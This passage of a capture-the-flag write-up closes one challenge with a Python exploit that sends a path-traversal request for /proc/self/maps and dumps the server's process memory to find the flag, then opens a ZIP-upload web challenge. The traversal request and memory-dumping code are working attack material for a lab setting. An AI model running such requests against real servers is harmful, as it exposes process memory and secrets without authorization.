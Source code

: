 ```python
    http_request = "GET /../../../../../../../../../../../../../proc/self/maps HTTP/1.1\r\nHost: localhost:3000\r\nConnection: close\r\n\r\n"
    response = send_http_request(host, port, http_request)
    content=response.split("\r\n\r\n")[1] # Skip HTTP headers
    if content:
        lines = content.split('\n')  
        ranges = [line.split()[0] for line in lines if line.strip()]  # Extract memory ranges
        dec_ranges = [f"{int(start, 16)}-{int(end, 16)}" for start, end in (range_.split('-') for range_ in ranges)]

        # Read memory for each range
        for range_ in dec_ranges:
            start, end = range_.split('-')
            mem_content = read_mem_range(start, end)
            if mem_content:
                print(mem_content.decode(errors='ignore'))  # Decode memory content to string
            else:
                #print(f"Failed to read memory range: {range_}")
                print("\n")
    else:
        print(f"Failed to retrieve /proc/self/maps: {response.status_code}")

if __name__ == "__main__":
    main()


```

Let's start the script and redirect the output to a file `python exploit.py > output.txt`
now in the `output.txt` file we have the dumped contents of the memory in raw bytes, we can pipe it with `strings` and `grep` to extract the flag which we know has the format `flag{...}`  (in my case because I started the server locally)
![]({{ page.img_dir | relative_url }}/Home_on_the_Range/images/6.jpg)


---

# Schrödinger
Challenge category: Web</br>
Description </br>
```
Hey, my digital cat managed to get into my server and I can't get him out.

The only thing running on the server is a website a colleague of mine made.

Can you find a way to use the website to check if my cat's okay? He'll likely be in the user's home directory.

You'll know he's fine if you find a "flag.txt" file.
```
## Overview
Basically we are prompted in front of a simple web page that asks you to upload a *ZIP* file then it will display its content
